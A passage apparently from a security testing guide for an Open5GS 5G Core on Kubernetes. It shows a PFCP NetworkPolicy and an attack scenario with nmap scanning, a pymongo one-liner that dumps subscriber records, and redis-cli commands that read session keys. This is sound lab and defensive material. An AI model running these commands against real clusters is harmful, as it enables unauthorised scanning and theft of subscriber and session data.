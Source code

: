 **2. Rate Limiting NetworkPolicy**
```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy  
metadata:
  name: pfcp-rate-limit
  namespace: open5gs
spec:
  podSelector:
    matchLabels:
      app: upf
  ingress:
  - from: []
    ports:
    - protocol: UDP
      port: 8805
  policyTypes:
  - Ingress
```

---

## Attack Scenario 5: Inter-Pod Lateral Movement

### Objective
From compromised attacker pod, attempt to access internal databases, cache systems, and management interfaces to extract sensitive 5G Core data.

### Attack Procedure

**Step 1: Service Discovery**
```bash
kubectl exec -n attacker -it attacker-pod -- bash

# DNS enumeration
for service in mongodb redis mysql; do
  nslookup $service.open5gs.svc.cluster.local
done

# Port scanning
nmap -sS 10.96.0.0/16 -p 27017,6379,3306 --open
```

**Step 2: Database Access Attempts**
```bash
# MongoDB access without authentication
python3 -c "
from pymongo import MongoClient
client = MongoClient('mongodb://my5gc-mongo.open5gs.svc.cluster.local:27017')
print('Databases:', client.list_database_names())
db = client.open5gs
print('Collections:', db.list_collection_names())
print('Subscribers:', list(db.subscribers.find()))
"

# Redis access
redis-cli -h my5gc-redis.open5gs.svc.cluster.local
INFO
KEYS *
GET session:*
```
